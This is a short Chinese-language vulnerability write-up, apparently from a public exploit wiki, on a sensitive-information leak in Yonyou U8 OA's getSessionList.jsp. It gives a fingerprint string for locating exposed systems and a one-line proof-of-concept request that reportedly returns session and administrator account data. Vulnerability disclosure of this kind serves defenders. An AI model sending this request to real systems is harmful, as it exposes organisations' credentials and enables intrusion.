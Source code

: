 # 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

<a-checkbox checked>用友 U8 OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"用友U8-OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1645976459870-e87ed43e-2b7e-432d-b0ca-4909d02748be.png)

验证POC

```javascript
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![img](/assets/PeiQi-Wiki/img/1645976484402-84e294eb-dd29-4cfa-b8d7-d7ce7b07a7ce.png)